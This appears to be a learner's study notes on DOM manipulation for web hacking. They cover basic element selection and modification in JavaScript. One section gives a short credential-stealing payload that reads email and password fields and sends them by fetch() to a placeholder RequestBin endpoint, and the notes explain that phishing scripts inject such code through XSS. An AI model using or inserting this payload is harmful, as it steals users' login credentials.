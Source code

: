 # Introduction to DOM Manipulation (Web Hacking)

## Lessons learnt

> * The DOM is the structure of an HTML page that JavaScript can access and manipulate.
> * Hackers use the DOM to read or modify page content, steal data, inject forms, etc.
> * JavaScript can be used to hijack or manipulate elements dynamically.
----

## 🧰 Basic DOM Commands

### Select Elements

```js
// By ID
document.getElementById("email")

// By class name
document.getElementsByClassName("input")

// By tag name
document.getElementsByTagName("form")

// Query selectors (CSS-style)
document.querySelector("input[type='password']")
```

### Modify Values

```js
// Get input value
let email = document.getElementById("email").value;

// Change text content
document.querySelector("h1").textContent = "Hacked";

// Change background
document.body.style.background = "black";
```

---

## Simple DOM Data Stealing Payload

```js
let email = document.getElementById("email").value;
let pass = document.getElementById("password").value;
fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&password=" + pass);
```

> This sends the victim's email and password to your server.

---

## Challenge I practiced

practice:

* Located the email and password input on a form.
* Used `console.log()` to test capturing the data.
* Sent it to my own endpoint using `fetch()`.

---

## Real-World Application

This is how real phishing scripts silently steal login credentials using JavaScript injected via DOM-based XSS or HTML Injection.
